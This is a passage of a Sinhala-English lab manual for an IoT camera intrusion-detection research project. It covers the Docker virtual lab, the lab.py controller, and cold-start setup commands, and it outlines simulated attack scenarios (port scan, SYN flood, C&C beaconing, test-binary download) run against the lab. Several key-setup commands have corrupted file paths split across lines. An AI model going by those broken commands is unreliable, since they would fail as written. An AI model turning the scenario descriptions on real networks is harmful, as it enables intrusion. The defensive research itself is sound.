| **4.2.9: Camera Stream Survival**         | **O5** (Safety Invariants)                           | Safety Guardrails & Access Protection                                                   | **RQ5** & **Table 9** Benign Safety (H1 FPR: Hardware Lab)         | **Scenario 4 / Table 9**                    | Attacker block / rate-limit වී ඇති විටත් NVR stream එක නොකැඩීම, සහ කිසිදු ආරක්ෂිත උපාංගයක් block නොවීම. |
| **4.3.4: Malware Download Evidence**      | **O3, O4** (Binary Transfer & Alerting)              | **Table 10 Row 5** & RULE_EXECUTABLE_DOWNLOAD                                           | **Table 10 Scenario 5** (Forensic Evidence)                             | **Scenario 5** (Malware Download)           | කැමරාව හානිකර නොවන test program එකක් (`lab_test.x86`) download කරන විට Zeek `files.log` හි file type එකෙන් `RULE_EXECUTABLE_DOWNLOAD` alert එක ලැබීම (block නැත).  |
| **4.2.10: Controlled Nmap Discovery**     | **O4** (Device Inventory & Storage)                  | **FR-05 (Should)**: Controlled Nmap Discovery & Services                          | **Section 3.7** (Device Inventory & Multi-evidence)                           | Inventory Audit                                   | පරිපාලකයාට ජාලයේ ඇති කැමරා සහ සේවාවන් Nmap මඟින් සොයාගෙන Dashboard හි Devices ලැයිස්තුවට දැමීම.   |
| **4.2.11: Manual Block/Unblock & Export** | **O5** (Reversible Response) & **O4**          | **FR-07 (Must)**: Audit Log & **FR-08 (Should)**: Filtered Export           | **Table 10 Scenario 6** & **Table 9** (Usability & Audit)               | **Scenario 6** (Manual Block & Rollback)    | පරිපාලකයාට ඕනෑම IP එකක් Manual Block/Unblock කිරීමට සහ ප්‍රහාරක logs RFC 4180 CSV/JSON ලෙස Export කිරීම.             |
| **4.3: Manual Attack Playbook**           | **O1–O6** (Comprehensive Hands-On Verification)      | End-to-End Manual Command Execution & Telemetry                                         | **Table 10 Scenarios 1–6 (Complete Hands-On)**                          | **Scenarios 1 to 6**                              | ටර්මිනලයේ අතින්ම commands ගසා (PortScan, DDoS, C&C, Malware, Manual Block) සියල්ල සජීවීව පෙන්වීමේ සම්පූර්ණ අත්පොත. |

---

### 4.2.0 ආරම්භයේ සිටම සියල්ල පණගන්වා ගන්නා ආකාරය (Starting the Entire Lab From Scratch)

> 🎯 **Proposal එකේ මෙම පරීක්ෂණයෙන් සාක්ෂාත් වන අරමුණ සහ ඔප්පු වන කරුණු (What this Test Proves):**
>
> - **ඉටුවන පර්යේෂණ අරමුණ (Objective):** **Objective O4** ("Build the monitoring, dashboard, storage and alerts, and join them together") සහ **Objective O6** ("Test how well it runs and resource use").
> - **සම්පූර්ණ වන ක්‍රියාකාරී අවශ්‍යතාවය (Requirement):** System Integration, Automated Key Provisioning, and Pipeline Startup.
> - **විසඳෙන පර්යේෂණ ගැටලුව / ඉලක්කය (Target):** **Table 9 (Reliability Acceptance Criteria)** — "Recovery after restart, data kept in the database, and old rules cleaned up. All important recovery tests pass."
> - **මෙය සිදු කළේ ඇයි? (Core Rationale):** පරිගණකය Shutdown කර ඇති හෝ කිසිවක් ධාවනය නොවී ඇති මුල් අවස්ථාවක සිට (Cold Start), කිසිදු අතින් කරන අමතර සැකසුමකින් තොරව ස්ක්‍රිප්ට් මඟින් සම්පූර්ණ පද්ධතියම (Bridges, Containers 11, AI Pipeline, Dashboard) එකවර නිරවුල්ව පණගන්වා ගත හැකි බව පෙන්වීමටයි.
> - **Supervisor ට කියන සාරාංශ සාක්ෂිය:** *"Sir, this satisfies Objective O4 and Table 9 Reliability. From a complete cold start, our orchestration commands provision SSH credentials, instantiate the dual-bridge Docker network, launch all 11 containers, and bind the real-time Python IDS engine with verified pipeline health."*

### 💡 `lab_virtual/lab.py` යනු කුමක්ද? එය අප විසින් සාදාගත්තේ ඇයි? (What is `lab.py` & Why Did We Build It?)

> ❓ **"මේ `lab.py` කියන්නේ මොකක්ද? මේක අපි හදාගත්ත එකක්ද? කොහොමද මෙහෙම එකක් මෙතනට ආවේ?"**
>
> **පිළිතුර: ඔව්! මෙය පිටතින් ගත් කිසිදු තෙවන පාර්ශවීය මෘදුකාංගයක් නොවේ. මෙය අපගේ පර්යේෂණ ව්‍යාපෘතිය සඳහා අප විසින්ම සම්පූර්ණයෙන්ම Python කේතයෙන් ලියන ලද ප්‍රධාන Virtual Lab Orchestrator & Test Controller ස්ක්‍රිප්ට් එකයි ([`lab_virtual/lab.py`](lab_virtual/lab.py)).**

#### 1. මෙය අප විසින් නිර්මාණය කළේ ඇයි? (The Core Rationale Behind `lab.py`):
1. **Docker Containers සහ Dual Bridges ස්වයංක්‍රීයව පාලනය කිරීම:**
   - අපගේ Virtual Lab එක තුළ Router, Camera, NVR, Admin PC, Sensor, Scanner, Attacker, Cloud ආදී Containers සහ `camlan` (192.168.50.0/24), `outside` (10.10.10.0/24) යන අතථ්‍ය ජාල 2 ක් ඇත.
   - සාමාන්‍යයෙන් මේවා එකින් එක terminal commands වලින් open කරමින් සිටීම අතිශය වෙහෙසකර බැවින්, ඒ සියල්ල තනි විධානයකින් එකවර build කර up/down කිරීමට `lab.py` නිර්මාණය කළෙමු.
2. **රහස්‍ය SSH Keys ස්වයංක්‍රීයව සැකසීම (Automated Ed25519 Key Provisioning):**
   - අපගේ Python IDS Engine එකට Router Firewall එකේ (`nftables`) drop rules ඇතුළත් කිරීමට නම් Router එක වෙත Password නැතිව SSH මඟින් රහසිගතව Login වීමට අවශ්‍ය වේ.
   - ඒ සඳහා අවශ්‍ය Cryptographic Ed25519 SSH Keys (`lab_virtual/keys/router_admin`, router host key, `known_hosts`) ස්වයංක්‍රීයව ජනනය කිරීම `lab.py setup` මඟින් සිදු වේ. Dashboard Login Password එක (`dashboard_login.txt`) සාදන්නේ **`lab.py ids-start`** පළමු වරට run කළ විටයි (MongoDB හි `labadmin` පරිශීලකයා සමඟ).
   - 🔒 **මෙම Keys සහ Password run කරන වාරයක් පාසා වෙනස් වෙනවාද? (Are they Persistent?):**
     - **නැත (NO)! මේවා run කරන වාරයක් පාසා වෙනස් නොවේ.**
     - කේතය තුළ `if not (KEYS / name).exists():` සහ `if not LOGIN_FILE.exists():` යන කොන්දේසි පරීක්ෂා කෙරේ. එනම් එම ගොනු දැනටමත් පවතී නම්, ඒවා නැවත අලුතින් හදන්නේ හෝ overwrite කරන්නේ නැත.
     - එබැවින් පරිගණකය restart කළද, lab එක stop/start කළද, නැතහොත් `lab.py setup` නැවත run කළද, ඔබගේ SSH Keys සහ Dashboard Password එක **ස්ථිරවම (Persistent & Stable)** පවතී.
     - මෙය වෙනස් වන්නේ ඔබ විසින් හිතාමතාම `lab_virtual/keys/` ෆෝල්ඩරයේ ඇති ගොනු Delete කළහොත් පමණි.
3. **Proposal Table 10 ප්‍රහාරක අවස්ථා 6 ස්වයංක්‍රීයව ධාවනය කිරීම (Automated Evaluation Scenarios):**
   - Supervisor ඉදිරියේ Proposal Table 10 හි සඳහන් Scenarios 1 සිට 6 දක්වා (Normal video, PortScan, DDoS Flood, C&C Botnet Beacons, Malware Download, Manual Block) අතින් commands දහස් ගණනක් ගසා පෙන්වීම වෙනුවට, එකම command එකකින් (`python lab.py scenario 4` ආදී වශයෙන්) සජීවීව ධාවනය කර Markdown Reports ජනනය කිරීමට මෙම controller script එක අප විසින් ගොඩනැගුවෙමු.

#### 2. `lab.py` සතු ප්‍රධාන විධාන 8 (The 8 Controller Subcommands Summary):
| විධානය (Command) | කරනු ලබන කාර්යය (What it Does) | කවදාද භාවිතා කරන්නේ? |
| :--- | :--- | :--- |
| **`python lab.py setup`** | Router SSH Keys (`router_admin`, `router_host_ed25519`) සහ lab එකේම `known_hosts` සාදයි (`up` මඟින්ද keys නැත්නම් මෙය ඉබේම run වේ). | පළමු වතාවේ පමණි (One-time). |
| **`python lab.py up`** | Virtual Lab Containers සහ Virtual Bridges සියල්ල එකවර Boot up කරයි. | Lab එක පටන් ගන්නා විට. |
| **`python lab.py ids-start`** | Port 5000 න් Python IDS Engine එක, Zeek Adapter එක, සහ Web Dashboard එක Background එකේ ධාවනය කරයි. පළමු වරට `labadmin` login එක සාදා `dashboard_login.txt` හි ලියයි. | Lab එක On කළ පසු. |
| **`python lab.py status`** | Containers, nftables Firewall Rules, Zeek `conn.log`, සහ AI Pipeline Latency තත්ත්වය එකවර පෙන්වයි. | පද්ධතිය පරීක්ෂා කිරීමට. |
| **`python lab.py scenario N`** | Proposal Table 10 හි Scenarios 1–6 ස්වයංක්‍රීයව ධාවනය කර Markdown පරීක්ෂණ වාර්තා සාදයි (පහත 2.1 බලන්න). | Supervisor ට පරීක්ෂණ පෙන්වීමට. |
| **`python lab.py reset`** | Router Firewall එකේ සියලුම Blocks ඉවත් කර පද්ධතිය පිරිසිදු (Fresh state) තත්ත්වයට පත් කරයි. | ප්‍රහාරයක් අවසන් වූ පසු. |
| **`python lab.py ids-stop`** | Background එකේ ධාවනය වන Python IDS Backend Server එක නවත්වයි. | වැඩ අවසන් වූ පසු. |
| **`python lab.py down`** | සියලු Docker Containers නවතා Memory සහ CPU නිදහස් කරයි. | සම්පූර්ණයෙන්ම Lab එක වසා දැමීමට. |

---

#### 2.1 "වාර්තා සාදයි" (Generates Test Reports) යනු කුමක්ද?

`python lab.py scenario N` (උදා: `scenario 4`) විධානය ක්‍රියාත්මක කළ විට, පද්ධතිය හුදෙක් ප්‍රහාරයක් එල්ල කර නිකම්ම සිටින්නේ නැත. එය පරීක්ෂණය අවසන් වූ සැණින් **`reports/lab_tests/virtual/`** නමැති ෆෝල්ඩරය තුළ සම්පූර්ණ **විද්‍යාත්මක පරීක්ෂණ වාර්තාවක් (Automated Markdown Evaluation Report)** ස්වයංක්‍රීයව ලියා තැන්පත් කරයි (උදා: `scenario_4_20261111_143913.md`).

##### මෙම වාර්තාවක අඩංගු වන්නේ මොනවාද?
1. **පරීක්ෂණ පාරදත්ත (Test Metadata):** පරීක්ෂණය සිදුවූ වේලාව (UTC Start/End), Proposal Table 10 අනුව අපේක්ෂිත ප්‍රතිඵලය (Expected Outcome), සහ ආරක්ෂක ඉලක්කය (Safe Result Target).
2. **පද්ධතිය ගත් ක්‍රියාමාර්ගය (What the system did - Telemetry Table):**
   - හඳුනාගත් ප්‍රහාරක පන්තිය (Class - උදා: `CnC`), Source සහ Destination IP (`192.168.50.30` $\rightarrow$ `10.10.10.50`), හඳුනාගත් හේතුව (`CNC_PERSISTENT_BEACON`), ප්‍රතිචාරය (`blocked`), හසුකරගත් flows ගණන (Flows: 32), සහ Random Forest Model එක ලබාදුන් උපරිම විශ්වාසනීයත්වය (Max confidence: `0.91`).
3. **Firewall නීති සහ ආරක්ෂිත උපාංග සත්‍යාපනය (Blocks & Rate-Limits):**
   - MongoDB හි සටහන් වූ Blocklist තොරතුරු.
   - සැබෑ Linux Router Firewall එකේ (`nftables`) ක්‍රියාත්මක වන sets (`block_dst: ['10.10.10.50 (ends in 1494s)']`).
   - ආරක්ෂිත උපාංග (Camera, NVR, Admin PC) කිසිවක් block නොවී සුරක්ෂිතව පවතින බවට සහතිකය (`Protected devices blocked: none (correct)`).
4. **Proposal Table 10 අනුකූලතා පරීක්ෂාව (Scientific Compliance Checks):**
   - Proposal එකේ නියමිත ආරක්ෂක ඉලක්කය ඉටුවූයේද යන්න (`C&C destination 10.10.10.50 blocked: yes`).

> 🎓 **මෙම වාර්තාවල ප්‍රයෝජනය:** Supervisor (Dr. Matheeh & Dr. Amarakeerthi) හට හෝ පර්යේෂණ නිබන්ධනයට (Thesis / Final Viva) සාක්ෂි ඉදිරිපත් කිරීමේදී, *"අපි Proposal Table 10 හි ප්‍රහාර 6 ම සැබෑ ලෙස ක්‍රියාත්මක කර පරීක්ෂා කළා, මෙන්න ඒ මොහොතේදීම පද්ධතිය විසින් සජීවීව ලියන ලද සැබෑ audit reports"* කියා පෙන්වීමට මෙය සෘජුවම උපකාරී වේ.

---

#### 2.2 `lab_virtual/lab.py` කේතයේ අභ්‍යන්තර ව්‍යුහය සරලව (Code Architecture Breakdown)

අප විසින් ලියන ලද [`lab_virtual/lab.py`](lab_virtual/lab.py) කේතය (පේළි 382 ක්) ප්‍රධාන තාක්ෂණික කොටස් 5 කින් සමන්විත වේ:

1. **නියතයන් සහ මාර්ග සැකසුම් (Paths & Constants - Lines 24–60):**
   - පද්ධතියට අවශ්‍ය Directories (`KEYS`, `LOGS`, `REPORTS`), Docker Compose ගොනුවේ path එක, Database නම (`iot_ids_lab`), සහ Port 5000 API URL එක රඳවා ගනී.
   - ජාලයේ ඇති උපාංග වල ස්ථාවර IP ලිපින අර්ථ දක්වයි (`CAMERA=192.168.50.30`, `ATTACKER=10.10.10.50`, `NVR=192.168.50.20`, `ADMIN=192.168.50.10`).
2. **පද්ධති පාලන මෙවලම් (Subprocess & SSH Helpers - Lines 61–74):**
   - `run(cmd)`: Python `subprocess` මඟින් Windows සහ Docker commands terminal එකේ ධාවනය කරයි.
   - `router_ssh(command)`: Windows host එකේ සිට Router Container එක (`ids-lab-router`) වෙත Port 2222 හරහා `router_admin` SSH key එක භාවිතයෙන් password නොමැතිව ආරක්ෂිතව සම්බන්ධ වී Firewall විධාන ධාවනය කරයි (උදා: `nft list table inet ids`).
3. **ජීවන චක්‍ර පාලකයන් (Lifecycle Commands - Lines 76–220):**
   - `cmd_setup()`: Windows OpenSSH `ssh-keygen` භාවිතයෙන් Ed25519 SSH keys සාදයි.
   - `cmd_up()`: `docker compose up -d --build` මඟින් Containers 11 සහ Bridges එකවර පණගන්වා, Router එකේ SSH පිළිතුරු දෙන තෙක් බලා සිටී.
   - `cmd_ids_start()`: Windows එක මත Port 5000 න් Unified IDS Server එක (`core_engine/app.py`) Background එකේ ධාවනය කරවයි.
   - `cmd_status()`: Containers 11 ම ධාවනය වේද, Zeek `conn.log` ලියයිද, සහ AI Latency එක කොපමණද යන්න එකම screen එකක පෙන්වයි.
   - `cmd_reset()`: IDS API එක හරහා සියලු active blocks ඉවත් කර (database එකේ ඒවා `removed` ලෙස සටහන් වේ; අනෙක් දත්ත මැකෙන්නේ නැත), Router එකේ `nft flush set` මඟින් sets තුනම හිස් කරයි.
   - `cmd_down()`: සියලු Containers නවතා Memory නිදහස් කරයි.
4. **ප්‍රහාර මෙහෙයුම් එන්ජිම (Proposal Table 10 Scenarios Engine - Lines 221–366):**
   - `SCENARIOS` ලැයිස්තුව: Proposal Table 10 හි සඳහන් අවස්ථා 6 ම මෙහි කේතනය කර ඇත.
   - `dexec(container, *args)`: ඕනෑම Docker Container එකක් ඇතුළට ගොස් විධාන ධාවනය කරයි (`docker exec`).
   - `reach(src, host, port)`: නියමිත port එකකට TCP socket සම්බන්ධතාවයක් විවෘත කළ හැකිදැයි පරීක්ෂා කර Firewall block එක සැබවින්ම ක්‍රියාත්මකදැයි තහවුරු කරයි.
   - `run_scenario(n, wait)`: Attacker container එක ලවා Nmap scan, SYN flood, C&C beaconing, හෝ Malware download ප්‍රහාරයන් නියමිත කාලසීමාවට දියත් කරවයි.
   - `cmd_scenario(args)`: ප්‍රහාරය ධාවනය කර, Zeek flows ගණන සහ AI alert logs එකතු කර, ඉහත සඳහන් කළ Markdown වාර්තාව (`reports/lab_tests/virtual/scenario_*.md`) ස්වයංක්‍රීයව ලියයි.
5. **විධාන හඳුනාගැනීම (CLI Argument Parser - Lines 368–382):**
   - Python `argparse` මඟින් පරිශීලකයා Terminal එකේ ගසන විධානය (`setup`, `up`, `status`, `scenario 4` ආදී) හඳුනාගෙන අදාළ Python function එක ක්ෂණිකව ක්‍රියාත්මක කරයි.

---

ඔබ පරිගණකය On කර, කිසිවක් ධාවනය නොවී ඇති මුල් අවස්ථාවේ සිට (Cold Start) Supervisor ඉදිරියේ මුල සිටම පද්ධතිය පණගන්වා පෙන්වීමට පහත පියවර 5 අනුගමනය කරන්න:

```
┌────────────────────────────────────────────────────────────────────────┐
│                        COLD START LIFECYCLE                            │
│                                                                        │
│  [1. Docker Desktop Open]                                              │
│            │                                                           │
│            ▼                                                           │
│  [2. lab.py setup]       ──► Lab SSH Keys & known_hosts (One-Time)     │
│            │                                                           │
│            ▼                                                           │
│  [3. lab.py up]          ──► 11 Containers & Virtual Bridges Spawned   │
│            │                                                           │
│            ▼                                                           │
│  [4. lab.py ids-start]   ──► IDS on Port 5000 (+ login file 1st time)  │
│            │                                                           │
│            ▼                                                           │
│  [5. lab.py status]      ──► All Green (Verification Passed)           │
└────────────────────────────────────────────────────────────────────────┘
```

1. **පළමු පියවර: Docker Desktop විවෘත කිරීම:**

   - ඔබගේ Windows පරිගණකයේ **Docker Desktop** මෘදුකාංගය Open කර Engine එක ධාවනය වන බව (Green icon) තහවුරු කරගන්න.
2. **දෙවන පියවර: මූලික Setup කිරීම (පළමු වතාවේ පමණක් / One-Time):**

   - **ක්‍රමය A: පහසු ස්වයංක්‍රීය Controller විධානය (Recommended One-Click Setup):**
     ```powershell
     .venv\Scripts\python.exe lab_virtual\lab.py setup
     ```

   - **ක්‍රමය B: කෙලින්ම ගසන සැබෑ විධානයන් (Direct Raw Commands):**
     ඔබට `lab.py` නැතිව සෘජුවම මෙය සිදු කිරීමට අවශ්‍ය නම් Terminal එකේ පහත විධාන ධාවනය කළ හැක:
     ```powershell
     # (පළමු වතාවේ පමණි: lab_virtual\keys හි ගොනු දැනටමත් ඇත්නම් මෙය run නොකරන්න - ssh-keygen ඒවා overwrite කිරීමට අසයි)
     # 1. Router SSH Keys (Ed25519) සාදා lab_virtual\keys හි තැන්පත් කිරීම (PowerShell 5.1 හි හිස් passphrase එක '""' ලෙස ලියන්න):
     ssh-keygen -q -t ed25519 -N '""' -C "ids-lab-sensor" -f lab_virtual\keys
outer_admin
     ssh-keygen -q -t ed25519 -N '""' -C "ids-lab-router-host" -f lab_virtual\keys
outer_host_ed25519

     # 2. Private keys වෙනත් පරිශීලකයින්ට කියවිය නොහැකි කිරීම (නැත්නම් Windows OpenSSH key එක ප්‍රතික්ෂේප කරයි):
     icacls lab_virtual\keys
outer_admin /inheritance:r /grant:r "$($env:USERNAME):F"
     icacls lab_virtual\keys
outer_host_ed25519 /inheritance:r /grant:r "$($env:USERNAME):F"

     # 3. Router එකේ SSH host key එක lab එකේම known_hosts ගොනුවට දැමීම (~/.ssh භාවිත නොවේ):
     $k = (Get-Content lab_virtual\keys
outer_host_ed25519.pub).Split(" ")
     Set-Content lab_virtual\keys\known_hosts "[127.0.0.1]:2222 $($k[0]) $($k[1])" -Encoding ascii
     ```
     *(Dashboard login එක (`labadmin` සහ අහඹු මුරපදය, `dashboard_login.txt`) මෙහිදී නොව, 4 වන පියවරේ `lab.py ids-start` පළමු වරට run කළ විට ඉබේම සෑදේ.)*

   > **කේතයෙන් සිදුවන දේ සරලව (Line-by-Line Breakdown):**
   >
   > - **`lab_virtual\lab.py setup`:** අප විසින් ලියන ලද `lab.py` Controller ස්ක්‍රිප්ට් එකේ `setup` විධානය මඟින් ඉහත ක්‍රමය B හි පියවර 3 ම එකම විධානයකින් සිදු කරයි (keys දැනටමත් ඇත්නම් ඒවා වෙනස් නොකරයි).
   > - **පසුබිමින් සිදුවන දේ:**
   >   1. **Router SSH Keys සාදයි:** අපගේ IDS Engine එකට Router Firewall එක (`ids-lab-router`) ස්වයංක්‍රීයව පාලනය කර block rules දැමීමට අවශ්‍ය `router_admin` (Ed25519 Cryptographic SSH Key යුගලය) සහ `known_hosts` ගොනුව `lab_virtual/keys/` තුළ ස්වයංක්‍රීයව සාදයි (Windows OpenSSH permissions ද ආරක්ෂිතව සකස් කරයි).
   >   2. **Dashboard මුරපදය (`setup` නොව `ids-start`):** `lab.py ids-start` පළමු වරට run කළ විට අහඹු මුරපදයක් ජනනය කර, MongoDB හි `labadmin` පරිශීලකයා සාදා, `lab_virtual/keys/dashboard_login.txt` තුළ සුරකියි.
   >
   > 💡 **විශේෂ පැහැදිලි කිරීම: මෙම Keys සහ Password සෑම run එකකදීම වෙනස් වෙනවාද? (Idempotence & Stability):**
   >
   > - **නැත! run කරන සෑම වාරයකදීම මේවා අලුතින් හැදෙන්නේ හෝ වෙනස් වන්නේ නැත.**
   > - කේතය ක්‍රියාත්මක වීමේදී `lab_virtual/keys/router_admin` සහ `dashboard_login.txt` ගොනු දැනටමත් හැදී තිබේදැයි (`if not exists`) පරීක්ෂා කරයි. ගොනු දැනටමත් පවතී නම්, පවතින Keys සහ Password ඒ ආකාරයෙන්ම ආරක්ෂිතව තබාගෙන ඉදිරියට යයි.
   > - **ඇයි මෙය මෙසේ ස්ථිරව (Persistent) තබාගෙන ඇත්තේ?**
   >   - සෑම run එකකදීම SSH Keys වෙනස් වුවහොත් Router එක සමඟ ඇති cryptographic trust එක බිඳවැටී *"SSH Host Key Verification Failed"* දෝෂයක් ඇතිවිය හැක.
   >   - සෑම run එකකදීම Dashboard Password වෙනස් වුවහොත් Admin ට Browser එකෙන් Dashboard එකට Login වීමට සෑම මොහොතකම අලුත් මුරපද සෙවීමට සිදුවේ.
   >   - එබැවින් මෙය **Idempotent** (එනම් කී වතාවක් run කළද ආරක්ෂිත තත්ත්වය නොවෙනස්ව පවතින) ලෙස නිර්මාණය කර ඇත.
   >   *(මෙම විධානය ධාවනය කිරීම අනිවාර්ය වන්නේ පද්ධතිය මුලින්ම සකසන පළමු වතාවේ පමණි. පසුව නැවත run කළද පවතින keys වලට කිසිදු හානියක් සිදු නොවේ).*
   >
3. **තුන්වන පියවර: Virtual Lab උපාංග (Docker Containers 11) ධාවනය කිරීම:**

   - **ක්‍රමය A: සෘජු Docker Compose විධානය (Direct Raw Command):**
     ```powershell
     docker compose -f lab_virtual\docker-compose.yml up -d
     ```
     Router එක පණගැන්වී nftables firewall table එක සූදානම් දැයි කෙලින්ම තහවුරු කිරීම:
     ```powershell
     docker exec ids-lab-router nft list table inet ids
     ```

   - **ක්‍රමය B: පහසු Controller කෙටි විධානය (Convenient Shortcut):**
     ```powershell
     .venv\Scripts\python.exe lab_virtual\lab.py up
     ```
     *(මෙමඟින් ඉහත `docker compose ... up -d` විධානය ක්‍රියාත්මක කර Router එක SSH පිළිතුරු දෙන තෙක් බලා සිට තත්ත්වය තහවුරු කරයි).*

   > **කේතයෙන් සිදුවන දේ සරලව (Line-by-Line Breakdown):**
   >
   > - **`docker compose ... up -d`:** `docker-compose.yml` ක්‍රියාත්මක කර `camlan` (192.168.50.0/24) සහ `outside` (10.10.10.0/24) Virtual Bridges සාදමින්, පහත වගුවේ දැක්වෙන Virtual Lab Containers 11 ම එකවර Background එකේ (`-d`) ධාවනය (boot up) කරයි. Router එක SSH හරහා සම්බන්ධ වන තෙක් රැඳී සිට තත්ත්වය තහවුරු කරයි.

   #### 📦 `docker-compose.yml` මඟින් සජීවීව ධාවනය වන Containers ලැයිස්තුව (Complete Containers Specification):

   Virtual Lab එක ක්‍රියාත්මක වීමේදී Proposal Topology එක (Figure 2) අනුව පහත සඳහන් Containers නිර්මාණය වේ:

   | අංකය | Container නම (Name) | IP ලිපිනය & ජාලය | භූමිකාව සහ කාර්යභාරය (Role & Description) |
   | :---: | :--- | :--- | :--- |
   | 1 | **`ids-lab-router`** | `192.168.50.1` (LAN)<br>`10.10.10.1` (WAN) | **Core Linux Router & nftables Firewall:** ජාල 2 අතර දත්ත packets forward කරන සහ ප්‍රහාරක IP block/drop කරන kernel firewall එක. |
   | 2 | **`ids-lab-sensor`** | Promiscuous Sniffer (`br-ids-lan`) | **Zeek Network Security Sensor:** Camera switch එකට (`br-ids-lan`) host mode එකෙන් සවන් දී binary packets වලින් `conn.log` ලියන sensor එක. |
   | 3 | **`ids-lab-camera`** | `192.168.50.30` (`camlan`) | **IP Camera Simulation Service:** Port 80 (HTTP Web GUI) සහ Port 554 (RTSP Video Streaming) සපයන කැමරා යෙදුම. |
   | 4 | **`ids-lab-camera-net`** | `192.168.50.30` (`camlan`) | **Camera Route Helper:** Python container තුළ `ip` command නැති බැවින් Router Gateway route එක (`default via 192.168.50.1`) රඳවා තබන Alpine helper එක. |
   | 5 | **`ids-lab-nvr`** | `192.168.50.20` (`camlan`) | **Network Video Recorder (NVR):** කැමරාවෙන් නොකඩවා 58.6 MB වීඩියෝ කොටස් ලබාගෙන පටිගත කරන සේවාදායකය. |
   | 6 | **`ids-lab-admin`** | `192.168.50.10` (`camlan`) | **Security Admin Workstation:** කැමරාවේ Web UI එක (Port 80) නිරීක්ෂණය කරන සහ කළමනාකරණය කරන පරිගණකය. |
   | 7 | **`ids-lab-scanner`** | `192.168.50.5` (`camlan`) | **Sensor Management & Inventory Scanner:** Proposal FR-05 අනුව ජාලය තුළ අනුමත Nmap Asset Discovery scans ක්‍රියාත්මක කරන Sensor Management host එක. |
   | 8 | **`ids-lab-attacker`** | `10.10.10.50` (`outside`) | **External Attacker Laptop:** පිටත WAN ජාලයේ සිට Nmap Port Scans සහ DDoS SYN Flood ප්‍රහාර එල්ල කරන හැකර් පරිගණකය. |
   | 9 | **`ids-lab-attack-server`** | `10.10.10.50` (`outside`) | **Attacker Companion Server:** Attacker පරිගණකයේ background එකේ දුවන Command & Control (C&C IRC Port 6667) Server එක සහ Malware Download server එක. |
   | 10 | **`ids-lab-cloud`** | `10.10.10.123` (`outside`) | **Vendor Cloud Server:** කැමරාව විසින් අන්තර්ජාලය හරහා telemetry දත්ත යවන බාහිර නිෂ්පාදක Cloud සේවාව. |
   | 11 | **`ids-lab-cloud-net`** | `10.10.10.123` (`outside`) | **Cloud Route Helper:** Cloud සේවාව සඳහා Router Gateway route එක (`192.168.50.0/24 via 10.10.10.1`) රඳවා තබන Alpine helper එක. |

   > 💡 **සටහන (Architectural Note):** 
   > - අපගේ Virtual Lab එකෙහි ප්‍රධාන තාක්ෂණික භූමිකාවන් 7 ක් (Router, Sensor, Camera, NVR, Admin PC, Attacker, Cloud) පවතින අතර, Linux networking සහ routing නිවැරදිව පවත්වා ගැනීමට සහ සේවාවන් වෙන් කර තැබීමට Docker containers 11 ක් ලෙස ක්‍රියාත්මක වේ.
   >
4. **හතරවන පියවර: Python IDS Backend එක සහ Dashboard Server එක Start කිරීම:**

   - **ක්‍රමය A: සෘජු Environment Command එක (Direct Raw Execution):**
     PowerShell එකේ Environment Variables සකසා Backend Server එක Port 5000 න් සෘජුවම ආරම්භ කරන්න:
     ```powershell
     $env:IDS_SETTINGS_FILE="lab_virtual/settings.lab.yaml"; $env:DB_NAME="iot_ids_lab"; $env:PORT="5000"; $env:HOST="127.0.0.1"; .venv\Scripts\python.exe -m core_engine.app
     ```
     *(මෙය terminal එක block කරයි; නැවැත්වීමට `Ctrl+C`. Background එකේ ධාවනය කිරීමට: ඉහත `$env:...` පේළි 4 ම set කර, ඉන්පසු `Start-Process .venv\Scripts\python.exe -ArgumentList "-m core_engine.app" -WorkingDirectory (Get-Location)` - child process එකට env variables උරුම වේ. Windows PowerShell 5.1 හි `Start-Process -Environment` නැත.)*
     *(ක්‍රමය A මඟින් pipeline එක ආරම්භ වන්නේ නැත. (login වී) `POST /api/v1/pipeline/start` අවශ්‍යයි (Dashboard එකේ මේ සඳහා බොත්තමක් නැත). `dashboard_login.txt` නැත්නම් ද මෙය එය සාදන්නේ නැත. එබැවින් **ක්‍රමය B නිර්දේශිතයි**.)*

   - **ක්‍රමය B: පහසු Controller කෙටි විධානය (Convenient Shortcut):**
     ```powershell
     .venv\Scripts\python.exe lab_virtual\lab.py ids-start
     ```

   > **කේතයෙන් සිදුවන දේ සරලව (Line-by-Line Breakdown):**
   >
   > - Windows Host එක මත Port 5000 න් Unified Server එක (`core_engine/app.py`) Background එකේ ධාවනය කර (log: `lab_virtual\ids_backend.log`), `/api/health` පිළිතුරු දෙන තෙක් බලා සිට, `POST /api/v1/pipeline/start` මඟින් Zeek log කියවන Live Pipeline Runner එක ආරම්භ කරයි. පළමු වරට `labadmin` login එක සාදා `dashboard_login.txt` හි ලියයි. Dashboard එක `http://localhost:5000` හි විවෘත වේ.
   >
   > **ලැබෙන පිළිතුර (12 Nov 2026):**
   > ```text
   > IDS backend running (pid 21604), database iot_ids_lab; pipeline start: 200 running
   > Dashboard: http://localhost:5000 (served by the backend)  login in D:\intrusion detection\lab_virtual\keys\dashboard_login.txt
   > ```
   > 💡 **Demo එකට පෙර:** backend එක demo එකට අවම වශයෙන් **මිනිත්තු 5 කට පෙර** start කරන්න. ආරම්භයේදී latency එක ~570 ms පමණ වන අතර, ටික වේලාවකට පසු ~115 ms දක්වා අඩු වේ.
   >
5. **පස්වන පියවර: පද්ධතියේ සජීවී තත්ත්වය එකවර පරීක්ෂා කිරීම (Status Check):**

   - **ක්‍රමය A: කෙලින්ම ගසන සෘජු විධානයන් (Direct Component-by-Component Checks):**
     ```powershell
     # 1. Containers සියල්ල Running තත්ත්වයේ ඇත්දැයි බැලීම:
     docker compose -f lab_virtual\docker-compose.yml ps

     # 2. Router Firewall නීති සහ Drop Sets පරීක්ෂා කිරීම:
     docker exec ids-lab-router nft list table inet ids

     # 3. Zeek Sensor එක විසින් සටහන් කරගත් flows පේළි ගණන බැලීම:
     (Get-Content lab_virtual\zeek_logs\conn.log).Count
     ```

   - **ක්‍රමය B: පහසු Controller කෙටි විධානය (Convenient Status Summary):**
     ```powershell
     .venv\Scripts\python.exe lab_virtual\lab.py status
     ```

   - **ලැබෙන පිළිතුර (Verified Output):**
     ```text
     Lab machines:
       ids-lab-admin	running
       ids-lab-attack-server	running
       ids-lab-attacker	running
       ids-lab-camera	running
       ids-lab-camera-net	running
       ids-lab-cloud	running
       ids-lab-cloud-net	running
       ids-lab-nvr	running
       ids-lab-router	running
       ids-lab-scanner	running
       ids-lab-sensor	running
     Router blocks (real nftables sets): {'block_src': [], 'block_dst': [], 'limit_src': []}
     Zeek conn.log lines: 57; files.log present: True
     IDS pipeline: running {'attacks_detected': 0, ..., 'flows_processed': 2, ..., 'latency_ms_p50': 573.73, 'latency_ms_p95': 573.73, ...} file check: {..., 'running': True}
